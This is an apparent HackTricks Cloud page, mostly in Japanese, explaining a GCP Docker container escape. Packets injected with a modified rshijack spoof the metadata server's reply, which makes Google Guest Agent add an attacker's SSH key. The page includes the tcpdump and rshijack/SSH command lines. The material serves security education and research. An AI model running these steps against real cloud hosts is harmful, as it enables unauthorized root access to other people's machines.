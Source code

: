 # GCP - Network Docker Escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Initial State

この技術が指定されている両方のレポートで、攻撃者はGCPによって管理されている**Docker**コンテナ内で**root**アクセスを取得することに成功しました。ホストネットワークへのアクセス（および**`CAP_NET_ADMIN`**と**`CAP_NET_RAW`**の権限）があります。

## Attack Explanation

Google Compute Engineインスタンスでは、ネットワークトラフィックの定期的な検査により、**メタデータインスタンス**への多数の**平文HTTPリクエスト**が明らかになります。オープンソースサービスである[**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent)は、頻繁にそのようなリクエストを行います。

このエージェントは、**メタデータの変更を監視する**ために設計されています。特に、メタデータには**SSH公開鍵用のフィールド**が含まれています。新しい公開SSH鍵がメタデータに追加されると、エージェントは自動的にそれを`.authorized_key`ファイルに**認証**します。また、必要に応じて**新しいユーザーを作成**し、**sudoers**に追加することもあります。

エージェントは、**すべてのメタデータ値を再帰的に取得する**リクエストを送信することで変更を監視します（`GET /computeMetadata/v1/?recursive=true`）。このリクエストは、前回の取得以降にメタデータに変更があった場合のみ、メタデータサーバーが応答を送信するように設計されています。これはEtagによって識別されます（`wait_for_change=true&last_etag=`）。さらに、**タイムアウト**パラメータ（`timeout_sec=`）が含まれています。指定されたタイムアウト内に変更が発生しない場合、サーバーは**変更されていない値**で応答します。

このプロセスにより、**IMDS**（インスタンスメタデータサービス）は、構成変更が発生しなかった場合、**60秒後**に応答することができ、ゲストエージェントに対して**偽の構成応答を注入する**潜在的な**ウィンドウ**を作成します。

攻撃者は、**Man-in-the-Middle (MitM)攻撃**を実行し、IMDSサーバーからの応答を偽装し、**新しい公開鍵を挿入する**ことでこれを悪用できます。これにより、ホストへの不正なSSHアクセスが可能になります。

### Escape Technique

ARPスプーフィングはGoogle Compute Engineネットワークでは効果がありませんが、[**rshijackの修正版**](https://github.com/ezequielpereira/rshijack)を使用して、SSHユーザーを注入するためのパケット注入が可能です。この修正版は、[**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)によって開発されました。

このrshijackのバージョンでは、ACKおよびSEQ番号をコマンドライン引数として入力でき、実際のメタデータサーバーの応答の前に応答を偽装することが容易になります。さらに、[**小さなシェルスクリプト**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh)が使用され、**特別に作成されたペイロード**を返します。このペイロードは、Google Guest Agentに対して、`.authorized_keys`ファイルに指定された公開鍵を持つユーザー`wouter`を**作成する**ようにトリガーします。

スクリプトは同じETagを使用して、メタデータサーバーが異なるメタデータ値をGoogle Guest Agentに即座に通知しないようにし、応答を遅延させます。

スプーフィングを実行するには、次の手順が必要です。

1. **tcpdump**を使用してメタデータサーバーへのリクエストを監視します：
```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```
次のような行を探してください:
```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```
2. 正しいETAGを持つ偽のメタデータデータをrshijackに送信します:
```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```
このステップは公開鍵を認証し、対応する秘密鍵を使用してSSH接続を可能にします。

## 参考文献

* [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
* [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
